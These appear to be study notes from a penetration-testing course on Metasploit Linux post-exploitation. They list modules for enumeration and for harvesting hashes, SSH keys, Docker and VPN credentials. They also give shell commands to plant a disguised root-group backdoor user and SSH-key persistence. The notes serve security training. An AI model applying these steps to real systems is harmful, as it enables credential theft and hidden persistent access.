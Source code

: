 ###### Linux Post Exploitation
- Linux Post Exploitation Modules 
	- `post/linux/gather/enum_configs` -- this will gather all the linux configuration
		- `loot` --  it will tell you where all the info is saved 
	- `post/multi/gather/env` -- will gather env variable 
	- `post/linux/gather/enum_network` -- this will gather all the network info
	- `post/linux/gather/enum_protections` -- this will gather all the info about hardening
		- `notes` -- msf feature that will save all the important info
	- `post/linux/gather/enum_system` -- this will gather all the system
	- `post/linux/gather/checkcontainer` -- this will check if system is a container or not
	- `post/linux/gather/checkvm` -- this will check if the system is a vm or not
	- `post/linux/gather/enum_users_history` -- this will gather all the users on the system
-  Exploiting A Vulnerable Program
	- `cat /etc/*issue` -- on shell this will give the distribution release version
	- `ps aux` -- on shell will list the process running on system
- Dumping Hashes With Hashdump
	- `post/linux/gather/hashdump`
	- `post/multi/gather/ssh_creds` -- will collect the contents of all users' .ssh directories, known_hosts and  authorized_keys 
	- `post/multi/gather/docker_creds` -- will find docker related creds
	- `post/linux/gather/enum_psk` -- gathers NetworkManager's plaintext "psk" information
	- `post/linux/gather/phpmyadmin_credsteal` --  gathers Phpmyadmin creds
	- `post/linux/gather/pptpd_chap_secrets` -- will collects PPTP VPN information such as client, server, password, and IP
- Establishing Persistence On Linux
	- creating backdoor
		- create a user that cannot be identified easily 
		- `useradd -m ftp -s /bin/bash`
		- `passwd ftp`
		- `usermod -aG root ftp` -- add user to root group to give root priv
	- using Persistence module
		- `post/linux/manage/sshkey_persistence`
		- `set createsshfolder true`
		- `loot` -- to get the private ssh key
		- exit the msfconfole
		- copy the key to ssh_key file
		- `chmod 400 ssh_key`
		- `ssh -i ssh_key root@IP`

###### Armitage
- Port Scanning & Enumeration With Armitage
	- 